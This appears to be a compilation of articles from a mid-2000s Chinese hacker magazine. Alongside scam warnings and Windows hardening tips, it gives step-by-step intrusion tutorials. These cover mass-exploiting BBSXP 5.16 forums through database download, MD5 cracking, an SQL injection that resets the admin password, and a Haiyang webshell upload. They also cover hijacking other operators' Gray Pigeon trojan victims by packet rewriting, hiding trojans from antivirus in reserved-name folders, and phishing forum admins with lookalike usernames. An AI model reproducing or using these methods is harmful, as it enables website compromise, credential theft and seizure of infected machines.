“好心人”实在是太多了，总有人会热心地主动要帮你刷 QQ……他们会以帮你刷 QQ 的名义让人跟帖，再通过工具批量查找有 Q 币、QQ 秀的号码，继而索取密码，最终造成 Q 币被花、QQ 秀被送、好友被删等后果。


就算对方不跟你要密码，也可能让你留下 QQ 号，等再次登录时出现异常并要求激活。作者提醒：保存历史密码、好友等证明资料，便于被骗后申诉。

### 骗局四：点个链接就送你靓号？

“免费送靓号”“免费 Q 币”等链接很常见，点进去往往是骗局。文中举例通过搜索进入相关网站，页面要求填写 E-MAIL 并推荐靓号。


网站宣称“活动经公证”“输入真实邮箱即可接收密码”等内容，诱导用户继续操作。


填写邮箱并选号后，进入下一页（图7），提示“已成功获得 QQ 号，需发送专用网址给 10 人点击后激活，并会发送初始密码到邮箱”。


作者测试后发现并未收到所谓“初始密码”，QQ 号也未激活，进而分析其目的在于骗点击、收集并贩卖邮箱地址，或通过网页木马实施攻击。

- **骗点击率**：诱导用户转发链接、提高访问量，并通过“独立 IP 有效”等规则防刷。  
- **骗邮件地址**：收集申请者邮箱，打包为邮件列表出售牟利。  
- **木马抓肉鸡**：在网页挂马，诱骗点击后感染设备。  

#### 骗局五：可以刷 QQ 的软件？

所谓“可刷 QQ 等级/刷 Q 币”的软件多为木马或骗钱工具，常以“输入 QQ 号和充值数量，几分钟到账”为噱头，甚至提供下载地址引诱安装。

#### 骗局六：黑站？要钱！

一些“帮人黑站”的广告本质是诈骗：先展示“战绩”骗取定金，收到银行卡号和汇款后即拉黑跑路。文末提醒读者提高警惕，避免网络欺诈造成损失。


---

## 让菜鸟都成为肉鸡的高手

无敌小龙

在上期的杂志中，毒药已经教了各位菜鸟一招如何使用 MS06-040 漏洞来批量抓肉鸡。没想到才一眨眼的工夫，这小子摇身一变居然成了菜鸟学堂的新老师……这回我们不使用 MS06-040 漏洞了，而是改用网站猎手（WebHunter）。

运行网站猎手，在关键字栏中输入：Powered by BBSxp 5.16（因为这个版本的漏洞利用方式比较简单），点搜索后程序会自动跳转到浏览页，如图1。


图1

百度一共找到了相关网页约 51,100 篇……程序已经考虑到这点，所以我们可以在整理网址的选项中进行筛选，如图2。


图2

这时就可以来扫描漏洞文件网页，点击“Load URL”，把我们过滤好的 URL 导入到待测试站点中……这样可以缩短程序扫描时间，如图3。


图3

最后点击“开始检测”按钮，程序就自动跑起来了，很快扫描结果就出来了，如图4。


图4

在检测到的结果中，找到一个目标站点，点鼠标右键，选择“访问”，弹出数据库下载对话框……找到 user 表，选择 membercode，关键字输入 5，发现 password 字段是加了密的，如图5。


图5

BBSXP 使用的是 MD5 不可逆加密方式。对于 MD5 密码破解，现在主要流行两种方式：使用破解器暴力破解，或在线 MD5 破解网站破解。文中给出了多个在线站点示例，如 cmd5、milw0rm、reeao 等。


图6

比如我们在 IE 浏览器中输入 `http://www.cmd5.com`，来到破解网站。在输入框中输入一段密文：`900150983CD24FB0D6963F7D28E17F72`，然后再输入验证码，点击“md5 加密或解密”，该页面就会把输入的密文调入数据库中进行查询；如果查询成功，就返回如图6所示界面。

对于暴力破解 MD5 密码的工具，著名的有 MD5cracker。在“破解单个密文”栏输入密文，比如 `FCEA920F7412B5DA7BE0CF42B8C93759`（明文为 1234567）。在“字符设置”中选择使用字符集。由于字母+数字组合密码一般很难破解出来，所以我们只选择数字复选框。点击“开始”按钮，程序很快就破解出了密码明文 1234567，如图7！


图7

再来看看我写的 MD5 转换&破解工具 V1.0。之所以把这个工具拿出来，是因为它有一个小小的闪光点，就是 MD5 转换（明文转换为密文）！比如在前几期的《黑客 X 档案》中，悟空也闭关在文章中就提到过：当我们找到一个有注入漏洞的 URL，而且权限是 db_owner（一般来说是 MySQL 数据库），虽然我们通过 SQL 语句获得了管理员的 MD5 加密密码，但是却对破解它束手无策时，就可以用这个小工具来加密一段明文，比如 123456，得到密文 `E10ADC3949BA59ABBE56E057F20F883E`，然后在有注入漏洞的 URL 后面加上 `update admin set password=E10ADC3949BA59ABBE56E057F20F883E where userid=1`（意思就是把 ID=1 的用户密码修改为 123456，ID=1 的用户通常就是管理员），如图8。


图8

破解出密码明文，我们就可以开始下一步骤了——找后台登录界面！寻找后台登录界面有两种方式：用工具扫描和用搜索引擎搜索。如果选择使用工具的话，有专门的扫描工具，比如网站后台扫描工具 V1.0。至于后者比较好的搜索语法是：`site:http://target/ 登陆` 或者 `site:http://target/ login` 等等！当我们密码明文和登录后台都有了，就可以登录后台，传马，获得 Shell 了！

其实，BBSXP 在设计时是考虑到了密码安全性的，比如管理员前台和后台可以设置不同密码。而在这点上 Dvbbs 使用的是默认密码 admin888！不过，国内网络安全现状堪忧，最起码国内有一半以上管理员会出于方便考虑，前后台使用同一个密码，这也就给我们这些小菜的渗透大开了方便之门。很轻易进入后台后，找到数据库管理页，如图9。


图9

本来可以通过备份数据库的方法来获得一个 webshell，可是查看源代码一看：

```html
<form method="post" action="?menu=bak"...>
<table cellpadding="0" cellspacing="0" style="border-collapse: collapse" width="90%">
<tr>
  <td width="30%">数据库路径：</td>
  <td width="70%"><input size="30" value="database/bbsxp.mdb" name="yi" readOnly></td>
</tr>
<tr>
  <td width="30%">备份的数据库路径：</td>
  <td width="70%"><input size="30" value="database/bbsxpbak.mdb" name="bf"></td>
</tr>
<tr>
  <td width="100%" align="center" colspan="2"><input type="submit" value="备份" name="Submit1"></td>
</tr>
</table>
</form>
```

翻译一下就是文本框只读（readonly），不过由于验证码是在本地，所以我们可以通过修改 HTML 代码来达到修改输入框数据的目的！

> **小知识：**WebShell 可以简单理解为一个挂接在 Web 上面的后门（木马）。备份数据库获取 WebShell：通常利用方式是将一个后缀是 jpg 的文件（其实是一个 Web 文件修改后缀得到的）还原成 asp 文件，它其实是通过 BBSXP 后台对备份文件后缀名检测不够严格来达到修改并获取 Shell 的目的。

打开海阳 2006，找到 `Const userPassword = ""`（定义密码常量的 ASP 语句，把引号中的密码改为你自己的密码），然后选择文件菜单，选择另存为，在另存为对话框中输入 `2006.jpg`，保存类型选择“所有类型”，如图10。来到前台，发表一个新帖子，如图11，记住一个重要地址：`http://127.0.0.1/bbsxp/images/upfile/2006-3/200632117412.jpg`。把刚才表单中的 `database/bbsxp.mdb` 修改为 `images/upfile/2006-3/200632117412.jpg`，`database/bbsxpbak.mdb` 修改为 `mm.asp`。还有一个重要地方需要修改，就是表单提交地址要修改成绝对地址！

### 傻瓜黑客

在`<form method="post" action="?menu=bakbf">`中的提交地址中加上“http://127.0.0.1/bbsxp/”+接受 menu 变量的 asp 文件。但是这个“接受 menu 变量的 asp 文件”其实是不好找的。


除了网站猎手外，相关的利用工具也有许多，比如专门用于扫描 Dvbbs 的动网漏洞大扫描 V1.0。不过这个工具还有重大的瑕疵，比如不能修改漏洞文件，不能扫描其它 WEB 程序（比如无法扫描 BBSXP 的数据库等等），如图15。


拿出我们的嗅探工具 WinSock Expert，找到 IEXPLORE.EXE 进程（我们的 IE 进程），从中找到我们当前登录的 BBSXP Board 后台管理（图12），然后打开。终于找到了我们需要的文件了，如图13。此时，把表单中的“action="?menu=bakbf"”修改为“action="http://127.0.0.1/bbsxp/admin_rso.asp?menu=bakbf"”，把代码另存为 a.html，然后运行，提示备份成功，如图14。我们在 IE 中输入 http://127.0.0.1/bbsxp/mm.asp，呵呵，可爱的海阳木马是不是已经出现了！


更加傻瓜化的工具还有挖掘机，它的最新版本是 3.5，不过用起来很不顺手，个人比较喜欢的是 1.1 版。在关键字中输入“Powered by BBSXP 5.16”，在添加后缀中可以输入论坛或网站程序的默认数据库文件，比如 bbsxp7.mdb。程序有一个很大的亮点，就是可以扫描 web 小马（这些小马通常是别人入侵后遗留下来忘记删除的），如果扫描到了小马，你就可以通过上传一个大的木马来获取属于自己的 webshell 了，如图16。


（文中涉及到的工具网站猎手、网站后台扫描工具 V1.0、MD5cracker、MD5 转换&破解工具 V1.0、动网漏洞大扫描 V1.0、挖掘机 3.5，光盘中已收录）


## 手工为文件夹“隐身”

羊晓东

在办公室等公共场所的计算机上，文件夹的隐藏一直是不少用户乐此不疲的（谁没点儿秘密啊？）。其实并不需要使用各种加密工具来欲盖弥彰，我们完全可以手工为文件夹“隐身”。思路也非常简单：文件夹之所以暴露出来，无非是文件夹的名称和本身的图标两项，只要分别处理一下使之不显示即可。

### 第一步：空格文件夹名

新建一文件夹或将想要隐身的文件夹重命名为空格。经试验，必须是全角的空格。为了减小目标，建议只使用一个全角空格。

### 第二步：空文件夹图标

在这个文件夹上右键单击选择“属性”，然后在“自定义”选项中单击“更改图标”按钮（图1）。在随后弹出的“为文件夹类型更改图标”窗口中，在系统默认图标库中向后查找，其中有三个“空”图标（图2）。选择其中任意一个，点击“确定”按钮两次后返回，这时我们就得到了穿着“隐身衣”的文件夹。为了增加其隐身性能，最好将它所在的文件夹按“名称”进行图标排列，这样它就出现在最开头（结尾）。以后就可以把你的秘密东西存进这个“隐身”文件夹中了。

本法美中不足的是按 F5 刷新时能看到有个文件夹图标闪一下，这可逃不过一些比较细心的用户。另外，如果在 DOS 方式下（从“运行”中输入“CMD”也可）使用 DIR 命令查看的话，也能看到一个无名的文件夹（图3）。不过这已经不错了，对于要求不高的用户不妨一试。


## 替换正在运行的软件全攻略

临床末伟

各位读者一定遇到过这种情况：由于操作不当或感染了病毒、后门、木马，导致系统文件损坏；但是当我们替换这些文件的时候，系统却提示该文件正在使用，无法替换。想在任务管理器结束任务，也常不留情地被拒绝，重启计算机故障依旧。其实这是 WINDOWS 的文件保护（WFP）在起作用。要让我们的系统回到原来的状态，常规的方法一定是行不通的，那么到底有哪些方法可以解决这个问题呢？

### 一、常见的解决方法

- 1. **无敌 DOS 法**：不管使用的是什么操作系统，只要利用启动盘引导系统进入纯 DOS，然后通过 COPY 命令便能轻松完成文件替换任务。
- 2. **多系统法**：如果你使用的是多操作系统，那么对系统文件的替换也很简单，只要切换到另一个系统，然后对另一个系统的文件进行替换就可以了。
- 3. **安全模式法**：重新启动电脑，在启动的时候按下 F8 键进入安全模式。此时很多 WINDOWS 程序都没运行，替换工作通常可以顺利完成。当然这种方法是有一定局限性的。

### 二、特殊的解决方法

- 1. **系统自带的利刃——replace**：WINDOWS 2K/XP 中都自带了 replace 命令。利用 replace 命令可以用源目录中的同名文件替换目标目录中的文件（`replace 文件名 目录`）。它的特点是对正在使用的文件也可实现替换，某些文件还可立即起效（如 MP3 文件）。
- 2. **不错的工具——INUSE**：inuse 命令在 WINNT 下作用很大，一些受文件保护的文件可用该命令实现替换。在系统重新启动时，该工具替换操作系统使用的文件。命令格式：`inuse 替换文件 被替换的文件`，还可以实现局域网内文件替换。
- 3. **软件替换法**：命令行操作虽简单，但操作起来并不总是方便，尤其是要替换多个文件时。可使用专门软件完成任务，例如 copylock 等工具。该软件除了 WINDOWS 的核心文件外，对于正在运行的文件和受保护的文件都可以进行替换，更重要的一点是它可以实现多个文件的替换，这是命令行下无可比拟的。直接运行它，运行后如图1。操作很简单，首先添加要替换的文件，接着选择替换的目录，点击“应用”就可以了。


然后在 CMD 下使用 replace 命令替换文件，当文件替换完成后，在“新任务”中重新运行 explorer 进程就可以了。


### 4. 补丁的启发

我们在学习 CRACKER 技术的时候，如果一个软件安装后提示重新启动计算机。一般这样的软件会把注册信息写入到注册表中。在安装补丁的时候需要重新启动计算机，并且安装补丁的过程也是一个文件替换的过程，是不是也是通过注册表完成的呢？经过注册表跟踪发现补丁的安装的确是通过注册表来进行操作的。这样我们又找到了一种替换正在运行的文件的方法。

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager

pendingfilerenameoperations (REG_MULTI_SZ)
\??\d:\win32k.sys
\??\f:\winnt\system32\win32k.sys
```

以 win32k.sys 为例，目的是使用 d:\win32k.sys 替换 f:\winnt\system32 下的同名文件。首先打开“开始”→“运行”，输入 regedit32 并回车，找到如上路径，创建新的键“pendingfilerenameoperations”，类型为“REG_MULTI_SZ”，键值如上（不包含引号）。需要注意的是键值两个部分要分在两行中。保存注册表修改，重新启动计算机就可以了。

### 5. 取消文件保护的方法

对于文件保护的文件，一般情况下是无法进行替换的，这种情况下最好的办法就是暂时取消 WINDOWS 对文件的保护功能。其实系统中有很多文件实现文件保护功能都是通过 explorer 这个进程来实现的，所以我们可以暂时中止这个进程以达到我们替换文件的目的。首先打开“任务管理器”，结束“explorer”进程，然后切换到“应用程序”选项卡，在“新任务”中输入 CMD 打开命令提示符，如图2。

上面的方法只是对于某些文件可以，但如果要替换某些核心文件，比如你的系统中的内核级后门，我们可以使用故障恢复控制台来解决这个问题，像删除黑客之门。也可以直接结束系统的 WFP，替换完成后再重新启动 WFP 就可以了。这里向大家推荐 XPLITE 这款软件，软件运行后如图3。点击进入到“WINDOWS FILE PROTECTION”选项，然后在“WINDOWS FILE PROTECTION”框中选择“off”就可以结束系统在后台运行的 WFP 了，文件替换成功之后再改为“on”状态就可以了。


> （文中涉及到的 copylock 和 XPLITE 已收录到光盘中）

## 用 txt 文本查壳

我最近对于软件的加壳脱壳免杀情有独钟，偶然的机会，把以前初学 VB 时写的一个程序加上了国产的 SVKP1.32 版。这个壳不错，刚出来时能过大部分的杀毒软件，于是我决定对 SVKP1.32 壳进行一些分析，顺便研究一下脱壳的方法。


拿出 peid 对程序进行扫描，发现显示的居然是：“Microsoft Visual Basic 5.0 / 6.0 [Overlay]”，如图1。SVKP1.32 确实是一个强壳，那么有什么好的方法可以查出壳呢？使用 OD 虽然不能立刻得到结果，一时还真想不出好的方法来。看到桌面上的文本文档，我随手把程序的后缀名改成 txt，直接打开。看见了吗？开头的几句话里有这么几个字母 SVKP，如图2。


另外，网上还流行一种使用 freeres 释放压缩资源进行二次压缩的免杀方法，用这种方法做出来的病毒，peid 只能查到最后一次加的壳或什么都找不到，这点相信大家都很了解，我就不啰嗦了。现在重点是如何知道程序加了多重壳。再把刚才用 svkp1.32 压缩过的程序加上北斗 3.6 破解版的壳，使用 peid 进行检查，结果什么都没有找到。我们把程序的后缀改成 txt 打开，如图3。


跟刚才一样，加的是什么壳都显示出来了，而且还告诉我们第一次加的是 svkp，第二次加的是 nsp，很清楚了吧。如果要脱壳，就从最后的壳脱起。最后告诉大家，查壳的方法不是唯一的，只是我等菜鸟还没有那么高深的技术，巧用 txt 查壳也有查不出来的时候，本文只希望起到一个抛砖引玉的作用，期待更多的查壳方法出现。

## 偷袭，在此止步

愿风随缘

最近，班上的一位 PPMM 请我帮忙，因为她宿舍舍友经常在她不在时打开她的电脑，MM 希望我可以帮她隐藏一些东西。因为宿舍没有上网，手上也没什么工具，只有从系统或者现有的工具上来动手了。

### 1. 建立绝密文件夹

打开“开始”→“运行”，输入 CMD 后回车，弹出“命令提示符”窗口。先要确定自己所需要建立加密文件夹所在的磁盘分区，然后在命令提示符中输入：`md 磁盘分区:\所需要建立加密文件夹名..\`。例如我选择的加密文件夹所在的磁盘分区是 F 盘，建立加密文件夹名为“q”，那么我就在命令提示符中输入`md f:\q..\`（图1），在 F 盘中就会建立一个名为“q..”的文件夹。我们打开看看，是打不开的（图2），再来删除看看，也是删除不下的（图3）。


图4

其实这个加密文件夹除了可以存放我们的秘密文件外，还有别的用途。还可以使我们可爱的鸟儿免受杀毒软件的迫害，拥有免杀的待遇。不信，看看吧。首先生成马儿，被卡巴大叔杀了（图5），把木马复制进加密文件夹中，用杀毒软件杀毒看看。OK，给木马加了一层“保护罩”了（图6），还可以在肉鸡里面存放病毒 ^v^。


图1


图2


图5


图3


图6

MM 怒了，进不去了我还怎么存东西啊。别急，听我细细道来。只需要在“运行”窗口中输入`f:\q..\`，就能打开了，可以自由存放我们的秘密文件。用完后记得清除“运行”当中的记录，不然加密文件夹可就不秘密了。如果想删除，只需打开“命令提示符”，如果你的加密文件夹里没有文件，就输入`rd f:\a..\`，如果有文件，就输入`rd f:\q..\ /s`，按 Y 确认，就能完全删除了（图4）。

### 2. 系统也别想进

右键点击“我的电脑”，在弹出的菜单选中“属性”，在“高级”选项下，点击“启动和故障恢复”对话框，点击“编辑”按钮，就会打开 boot.ini 文件。将“default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS”和“multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Professional" /fastdetect”两项中的“partition(1)”改为“partition(2)”，再将“multi(0)disk(0)rdisk(0)partition(2)\WINDOWS="Microsoft Windows XP Professional" /fastdetect”复制几次，将其中的一项当中的“partition(2)”改回“partition(1)”，但要记住此项是第几项（启动时要用到的，如图7）。我选的是第 3 项，所以在启动时有一个选项，我选定第 3 项，就能顺利启动了，否则就会说系统文件损坏而无法进入系统。


### 3. 我的文件你点不了

先把任务栏中的一切程序关闭（以防露馅），再按 Print Screen 键，把桌面抓图，在系统里的画图中粘贴，然后作为桌面背景（图8）。再在桌面右击→排列图标→显示桌面图标，将那个勾去掉。此时桌面还有图标，但其实是一个图片而已。接下来是任务栏，右击任务栏，将“锁定任务栏”的勾去掉，把任务栏拉到底，然后再锁定任务栏。一个假的桌面就这样完成了，只要把键盘收起来，别人用鼠标就起不了任何作用了。

## 挑战黑客

网络发展数十年，安全的挑战接连不断。Windows 也更新了几次，但其安全性却难以让人满意。虽然 Linux 安全性更好，但谁会放弃 Windows 舒适的用户界面、傻瓜式的操作呢？虽然微软几乎每个月都公布几个洞，让我这样的“小菜鸟”狂欢，但我还是难舍 Windows。因此，我想用 Windows 自带的批处理来维护我的破机子。本人学习批处理时间不长，不对的地方大家指教呀。

最恐怖的莫过于远程溢出了，不小心你的 SYSTEM 权限的 CMD 就出现在别人的机子上了。看批处理的表现吧。CMD 的启动有两个方式：

- 1）如果在 `HKEY_LOCAL_MACHINE\Software\Microsoft\CommandProcessor\AutoRun` 或 `HKEY_CURRENT_USER\Software\Microsoft\CommandProcessor\AutoRun` 中有值，CMD 启动会先运行它；
- 2）以 `CMD /D` 方式运行，略过以上的两个键值。

一般人是不会以第 2 种方式启动的。那我们在 AutoRun 中建个批处理文件（login.bat）来增加用户验证和日志功能。

```bat
@echo off
setlocal
set times=2
title login
:login
set /P user=username
if %user%==eagle goto password
:check
...
```

```bat
title log
echo time:%time% date:%date%>log.txt
echo ip>>log.txt
netstat -n|find "ESTABLISHED">>log.txt
set /P msg=username is wrong, please leave your message
echo %msg%>>log.txt
echo goodbye
pause
exit
```

这样只有用户：`eagle`，密码：`414465534` 的人可以使用 CMD，而且防止暴力破解，还有日志哟。

木马的安装一般是复制 DLL 文件到系统盘下和在注册表里添加信息，假如复制到 SYSTEM32 文件下，那我们先备份其目录，命令是：`dir c:/winnt/system32 > beifen.txt`。然后建个批处理文件（watch.bat）：

```bat
@echo off
:start
dir c:/winnt/system32>mm.txt
fc beifen.txt mm.txt>>log.txt
goto start
```

配合脚本制作成自解压程序，添加到启动项里。我们就能知道木马是怎么安装的了。注册表防护可禁止注册表扫描、禁用注册表编辑器、禁用 REG 文件。

建个批处理文件（regminitor.bat），代码如下：

```bat
@echo off
echo Windows Registry Editor Version 5.00>reg.reg
echo [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]>>reg.reg
echo "ScanRegistry"="1">>reg.reg
rem 以上是禁止注册表扫描
echo [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]>>reg.reg
echo "DisableRegistryTools"=dword:00000001>>reg.reg
regedit /s reg.reg
del reg.reg
assoc .reg=txtfile
```

这样黑客是用不了注册表了。当然你也一样，使用以上代码前先备份一下注册表。有时我们想把系统盘禁止访问，可以用以下代码：

```bat
@echo off
cd\
cacls c: /E /T /P eagle:N
```

这样就无法访问 C 盘了。解除的代码是：`cacls c: /E /T /G eagle:F`。此外我们得把一些不安全的服务给停了。命令是：`net stop 服务名`，如 `net stop schedule`，那么 AT 命令就不能用了。防守就到这了，记住越安全你自己也是越不方便呀。

## 另类破解鸽子连接密码

黑侠（Black Mask） 黑枫无泪

灰鸽子对大家来说并不陌生吧，它强大的功能令各位菜鸟爱不释手。今天主要讨论一下如何破解灰鸽子的连接密码。以下方法主要针对 2005 版的灰鸽子。

### 一、追出加密后的连接密码

首先我就在本机配置一个鸽子的服务端，域名用 xtaflf.vicp.net，连接密码为 0348088，然后在本地运行。因为在鸽子主程序生成服务端的时候，密码就已经加密成一个 16 位的 MD5 变位的密文配置到服务端里面，用网上下载来的 MD5 破解软件是破解不出来的（因为是变位的 MD5 加密），所以在服务端里是找不出明文密码的，但是我们可以把加密后的密码找出来。好，打开“WinHex”，点击“打开 RAM”，找到“iexplore.exe”选择主要内存，再点击“搜索文本”输入域名：xtaflf.vicp.net，点击确定，按 F3 直到这里，如图 1。


然后在域名 xtaflf.vicp.net 后面会看到一串 16 位的字符 571e85be3f775bbd，这就是鸽子加密后的连接密码了！COPY 出来，接着我们再把 571e85be3f775bbd 转换成 16 进制“35 37 31 65 38 35 62 65 33 66 37 37 35 62 62 64”，记下它，后面会用到！

### 二、WPE 网络封包破解连接密码

打开灰鸽子客户端，已经上线，随便输了个连接密码 1，提示密码不正确，如图 2。虽然网上有人说可以通过修改鸽子的主程序来实现跳过密码验证，直接控制肉鸡，那已经是以前老版本鸽子的 BUG 了。对于 2005 版的鸽子，作者早已改正了。因为客户端和服务端双方的连接密码都要经过验证，并不是简单修改客户端就可以突破的。不过这里我想到了另外一个方法，就是通过客户端向服务端发送密码验证时，将客户端所发送的数据修改，这里需要通过第三方软件 WPE 进行封包过滤。也就是说客户端所发的数据都要经过 WPE 封包后再转发到服务端，从而可以突破客户端和服务端连接密码的验证。

WPE 是一个能够截取网络封包数据，并对修改后的数据进行发送的工具，许多人都用它来做游戏外挂，下面我们也来给鸽子做个外挂。打开 WPE，点击“目标程序”选中鸽子的进程，如图 3。点击“开始记录”就那个播放的黑三角，如图 4。好了，WPE 程序已经开始抓包了。

然后，我们回到鸽子的界面，在连接密码里填入：1，双击刚上线的那台主机读取一下磁盘列表，点击 TELNET、捕获屏幕、系统信息等一些按钮，再回到 WPE 的界面，已经抓到 30 多个数据包了，再点击红色的正方形停止记录，在右边会自动弹出数据包的窗口，如图 5。


第一个数据包意思是说：当连接密码为 1 时，通过鸽子主程序加密后是 baa7c962da298c0c，16 进制为“62 61 61 37 63 39 36 32 64 61 32 39 38 63 30 63”。在图 5 中“00 00 00 00”这四个字节是读取磁盘列表时的包头（因为在密码错误的情况下，是没有办法捕捉到读取磁盘列表的包头，所以这里我事先告诉大家）。也就是说不同的操作它的包头都是不一样的。经过我的观察发现，进行不同的操作（注：如复制、删除、TELNET、开启代理等一些操作）时，那四个字节的包头，只有第一个字节会变化，如进行 TELNET 时包头 27 00 00 00。然后将发送的 20 个字节组成的 16 进制选中，复制到记事本里保存，如图 6。


通过主程序加密成 16 位的变位 MD5，再以 16 进制数的形式发送到服务端进行校验时，我们就用 WPE 的过滤器进行过滤封包，充当鸽子客户端的转发器，将这些连接密码为 1 时加密后的 16 进制数统统替换成正确密码加密后的那个 16 进制再进行转发，从而达到欺骗鸽子服务端的目的。其实在整个封包过程中，我们根本就不用知道正确的连接密码（指明文密码）。因为我们每次都用 1 作为连接密码，所以替换起来比较方便。好了，下面正式开始封包了，双击左边的过滤器 1，应用次数填 100（最多能填 999 次，看自己的操作需要），模式为高级，修改起始于：数据包开头。其他默认，如图 7。


再来到数据里的搜索项，将密码为 1 时的 16 进制连同前面的包头共 20 个字节全部粘贴进去（就是前面叫你保存的那些 20 个字节的 16 进制数），从偏移的 001 开始。再来到数据里的修改项，将数据里的搜索项前四个字节抄下来，也填到偏移的 001 到 004 里面，再将我们前面从本地里得到那串 MD5 密文（已转换成 16 进制正确密码）从 005 开始右击粘贴，如图 8。


然后大家陆续添加其他操作的过滤器，一共能添加 40 个过滤器（不过够了）。方法和添加第一个过滤器时一样，也就是每个过滤器的包头第一个字节不一样而已，其他都和第一个过滤器一致。

过滤器一样，当全部操作的过滤器都添加完的时候，把这些过滤器前面的“勾”全部打上。再按下那个 ON 的按钮，过滤器全部成灰色了，也就启用过滤器，如图 10。此时，WPE 这个程序千万不能关闭，它现在是充当代理转发的角色。然后我们再回到鸽子的主界面（连接密码一定要和当时封包所用的密码一样）随便点击几个操作看看，怎么样，是不是都可以操作了！如图 11。

其实 WPE 这个软件的功能远不止这些，比如：制作网络游戏的外挂（刷钱、衣服），有兴趣的朋友还可以研究一下！用上面的方法其实我们还可以打一场鸽子反击战，抢占他人所有的肉鸡（中了人家的鸽子木马，不过事先要破解出域名，再用这个方法，嘿嘿）！还有 WPE 这个软件有可能会被杀毒软件误认为是病毒。请大家不要见怪！

> （本文所涉及到的 WPE 已收录到光盘中）

## 玩转 Net User 高级技巧

我是孟星魂。想必大家都对“Net Use”这个命令很熟悉吧，入侵的时候添加用户和管理员的命令是：`net user 用户名 密码 /add`，`net localgroup administrators 用户名 /add`。其实 NET 这个命令还有一些不常用的高级用法，也是比较有用的，今天我就来简单介绍一下。

使用 `net` 命令还可以限制用户登录时间，例如：`net user hacker 123456 /add /times:M-F,8:00-22:00,Sa-Su,19:00-21:00`。这个命令是建立一个登录时间受限制的用户。一般情况下服务器是不用登录的，只开机就行；为了防止外来入侵，比如禁止克隆后 guest 用户登录，把 guest 用户的登录时间限制为一分钟。相应地，取消特定用户限制登录时间可用：`net user 用户名 /times:all`。

另一个重要的命令是可以设置账户过期时间，比如要限定用户账号 admin 到 2006 年 11 月 1 日到期，就用 `net user admin /expires:Nov/1/2006`。一般服务器上因各种原因都有很多用户，用这个办法可以限制过期不需要使用的用户，可以防止被猜测出用户名，减少服务器的危险。

其它关于系统账户的限制可以使用组策略，在“运行”中打开 `gpedit.msc`，依次展开 计算机配置→Windows 设置→安全设置→账户策略→密码策略。比如设置密码长度必须为 14 位、密码到期时间等，提高系统安全性。


至于禁止添加用户也是有办法的。如果是在 FAT32 文件格式下，可以把 NET.EXE 改名。在 NTFS 文件系统下，可以用 CACLS 命令给 net.exe 设置访问权限，拒绝任何人访问这个命令。更进一步可监控命令提示符中的操作，发现用户输入 `/ADD` 等关键参数时给出提示或拒绝执行，以减少非法添加账户风险。

## 局域网隐藏之道

周玲生。通常我们使用 `net config server /hidden:yes` 命令实现局域网中隐藏的目的，但这种方法并不彻底，因为通过在地址栏中输入主机名或 IP 地址等方法依然可以访问，而且只要电脑重新启动后又会在网上邻居中现形。最近笔者发现另一窍门，写下来与大家分享。

首先通过“开始”→“运行”输入 `services.msc` 打开系统服务，查看 Network Connections 服务描述。经过试验，可将该服务“启动类型”改为“已禁用”，并点击“停止”按钮将服务停用，从而影响网络连接对象在系统中的显示与访问路径。


重启后，虽然在该主机的控制面板中的“网络连接”中找不到“本地连接”项，尝试右键刷新则会弹出“网络连接”文件夹不能检索在您的机器上的网络适配器，请确认‘网络连接’服务启用并且在运行。”的提示窗口，如图 2，当然也就无法更改本机的 IP 地址，但照样可以上网或通过网上邻居来访问局域网内的其它电脑，并无其它异常。

而局域网内的其它电脑虽然使用 **net view** 命令或网上邻居可以查看到该主机，但却无法 ping 通，而且也不可以访问，直接在地址栏输入主机名或 IP 地址也无法打开该主机（图 3）。这样容易让人产生一种错觉：就是误以为该机原本确实是存在于局域网中，但目前已关机。而这可能是因为 MSBROWSE（浏览主控服务器）更新延迟导致该主机名称滞留于局域网中。

## 假亦真时真亦假——特殊字符的妙用

毒药

这天，QQ 上好友·mk 提议去论坛灌水，我们高喊着口号“灌水无罪，潜水也要灌技术”来到某论坛，_mk 注册了一个“ admin”（注意前面有一空格）的 ID，以 admin（没有空格）的名义发了一篇追某蓉 JJ 的帖子，没想到居然真的有好多人被骗了。如果别有用心的人利用这些特殊字符再结合一些社会工程学的话，可能就不仅仅是发发帖那么简单了，后果是难以想象的。考虑了很久还是决定把这篇文章写出来，仅做技术研究使用，请勿用于其他目的。

### 一、如何注册这样的 ID

论坛程序一般都会把空格过滤掉，注册时是不能直接使用空格的。但是我们可以和论坛开一个 ASCII 码的玩笑。

- 1. 打开记事本，按住 ALT 键不放，同时在小键盘上按 127，会出现一个特殊的符号，如图 1。我们在论坛注册的时候把这个特殊符号直接复制粘贴到 ID 里面，就会注册出特殊的 ID 来。


- 2. 利用智能 ABC 输入法，先输入 v 再输入 1，回车后就会出现一个类似于空格的符号，注册时也可以利用这个符号注册出特殊的 ID 来，如图 2。这种方法更加隐蔽，其实还有很多方法可以利用，比如区位输入法等等，在此就不一一介绍了。


### 二、特殊 ID 的利用

- 1. 如果把第二种方法再发挥一下，在发帖的时候全部使用特殊的符号发出来的话，就是传说中的空帖，发几十篇这样的帖子，论坛上去就是一片空白，而且这种帖子管理员是点也点不开的，也就是说是删不掉的，用来恶搞管理员是不是很有意思啊。但是我先声明，谁敢去黑飞的论坛恶搞的话，我绝对封他 ID、IP、IC、IQ，并诅咒他的电脑永远都得当我的肉鸡，让他这辈子永远不会翻身。

- 2. 在论坛里追 selfish 已经很久了，多希望她能发个喜欢我的帖子向我表明心意。好在咱们是学技术的，既然她不发我们就想办法自己发。赶紧去注册一个“·selfish”的 ID，然后去梅桐里发帖“我是 selfish，因为毒药班级对我一心一意、穷追猛打、死皮赖脸，所以我决定自今天开始只喜欢毒药一个人”，如图 3。满足一下虚荣，闪人了。如果你对哪个 MM 已经心仪很久，不妨用这个方法来试试啊（但是绝对不许对我的 selfish，否则处理方法同上）。

- 3. 到一安全论坛转了转，既然来了就留下点东西吧。注册一个“ python”（前面有空格）的特殊 ID，然后给论坛管理员发个短信，短信的内容就是对管理员说自己要维护论坛，但是似乎自己的账号出了问题，要对方先把他的账号借给自己使用一下，如图 4（当然你也可以写得更诱惑一些，就充分利用自己的智慧去骗人吧）。剩下的，就等着对方管理员自动发上密码吧，如果对方管理员不注意的话，密码就会被我们轻易地搞到手。

